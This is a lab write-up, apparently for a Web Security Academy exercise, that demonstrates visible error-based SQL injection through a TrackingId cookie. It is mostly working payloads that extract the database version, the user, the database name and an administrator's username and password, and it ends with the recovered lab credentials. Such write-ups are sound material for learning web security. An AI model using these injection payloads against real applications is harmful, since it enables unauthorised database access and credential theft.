




# Lab: Visible error-based SQL injection

## Preparation:

### Simple:

```
Cookie: TrackingId='+AND+1=CAST(USER+as+int)--+-; session=zXvEiBja3lmIvATscaMQujjH4iOZOuwP
```

### Using search and SELECT:

```
Cookie: TrackingId='+AND+1=CAST((SELECT+USER)+as+int)--+-; session=zXvEiBja3lmIvATscaMQujjH4iOZOuwP
```

## Exploitation:

### Getting a 500 error:

URL: https://0ad000c20488c7b182e5520200fa00a3.web-security-academy.net/

Payload:
```
Cookie: TrackingId=7LEHgmi9PoK9JB9u'; session=SJpuVelaON7LD8BBs2eT6iRIxXnQ3yJb
```



### Getting the version:

Payload:
```
Cookie: TrackingId='+AND+1=CAST(VERSION()+as+int)--+-; session=zXvEiBja3lmIvATscaMQujjH4iOZOuwP
```



<br>

### Getting the user:

Payload:
```
Cookie: TrackingId='+AND+1=CAST(USER+as+int)--+-; session=zXvEiBja3lmIvATscaMQujjH4iOZOuwP
```



<br>

### Getting database:

Payload:
```
Cookie: TrackingId='+AND+1=CAST(current_database()+as+int)--+-; session=zXvEiBja3lmIvATscaMQujjH4iOZOuwP
```



<br>

### Getting Username and Password:

Payload:
```
Cookie: TrackingId='+AND+1=CAST((SELECT+username+from+users+LIMIT+1)+as+int)--+-; session=pSEyPbZgNJ1v2ezGwpLDY9MHvwO111ZL
```

Creds:

```
administrator:dmaza57tueppqdoftbkp
```
